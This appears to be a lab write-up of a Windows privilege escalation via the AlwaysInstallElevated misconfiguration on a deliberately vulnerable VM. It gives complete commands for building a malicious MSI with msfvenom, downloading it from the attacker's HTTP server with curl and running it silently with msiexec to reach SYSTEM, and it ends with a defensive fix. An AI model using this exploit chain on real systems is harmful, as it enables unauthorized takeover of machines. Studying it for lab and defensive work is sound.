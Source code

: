 # Windows Privilege Escalation using AlwaysInstallElevated
> ⚠️ Disclaimer: This project is for **educational & documentation purposes**.I have created a vulnerability on VM which allows me to escalate Privileges. Do not use these 
techniques on systems you do not own or have explicit permission to test.

## Overview
This document walks through a Windows privilege escalation attack leveraging the **AlwaysInstallElevated** misconfiguration. We demonstrate the process step-by-step using a deliberately created low-privileged user and successfully escalate privileges to **NT AUTHORITY\SYSTEM**.

---

## 🔧 Environment Setup
- **OS:** Windows 10 (x64)
- **Attacker Machine:** Kali Linux
- **Tools Used:**
  - `winPEAS.exe` - Local enumeration tool for Windows
  - `msfvenom` - Payload generator from Metasploit Framework
  - `msiexec` - Windows Installer executable
  - `curl` - For file transfer

---

## 👤 Creating a Low-Privileged User
We created a new local user to simulate a compromised low-privilege environment:

```
net user sujit password123 /add
net localgroup Users sujit /add
```

This user **does not** have administrative rights by default.

---

## 🔍 Enumeration with winPEAS
We transferred and executed `winPEAS.exe` under the `sujit` account. During enumeration, it flagged the following:

![winPEAS](../../Screenshots/Privilege-Escalations/Winpeas.png)

*Figure 1: Running winPEAS.exe and finding a vulnerability*

```
[+] Checking AlwaysInstallElevated
  HKLM\...\Installer\AlwaysInstallElevated = 1
```

> The `HKLM` (machine-wide) key was set to `1`, enabling a vulnerability. The `HKCU` (user-specific) key was not set due to lack of permissions from the low-priv user.

This misconfiguration allows **any user** to install MSI files with elevated privileges if both registry keys are set. In our case, we manually set both as an admin.

---

## ⚠️ Vulnerability: AlwaysInstallElevated

**What it is:** A Windows policy that, when enabled, lets users install MSI packages with elevated privileges.

**Why it’s dangerous:** If both of these registry keys are set to `1`:
- `HKCU\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`
- `HKLM\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`

Then **any user** can escalate to SYSTEM by installing a crafted `.msi` file.

**Real-world implication:** Attackers with local access can gain full control without triggering UAC.

---

## 💥 Exploitation

### Step 1: Generate Malicious MSI
On Kali Linux:
```
msfvenom -p windows/x64/exec CMD='cmd.exe' -f msi > payload.msi
```

**Explanation:**  
- `-p windows/x64/exec` - Run an arbitrary command (`cmd.exe`)
- `CMD='cmd.exe'` - Spawns a shell
- `-f msi` - Output format is a Windows Installer package

### Step 2: Host on HTTP server
```
python3 -m http.server 8000
```

### Step 3: Transfer to victim
On Windows as low-priv user:
```
curl http://192.168.1.30:8000/payload.msi -o payload.msi
```

### Step 4: Execute payload
```
msiexec /quiet /qn /i payload.msi
```

### ✅ Result:
A new command prompt opens with SYSTEM privileges:

![Exploited](../../Screenshots/Privilege-Escalations/output-win.png)

*Figure 1: New Command prompt with highest privilege*

```
whoami
nt authority\system
```

---

## ✅ Conclusion
I successfully escalated privileges from a **low-privilege user** to **SYSTEM** using the `AlwaysInstallElevated` vulnerability. This attack is simple but highly effective when registry settings are misconfigured.

**Defensive Measure:**
Ensure both HKLM and HKCU registry keys for AlwaysInstallElevated are set to `0`, and restrict local user access.

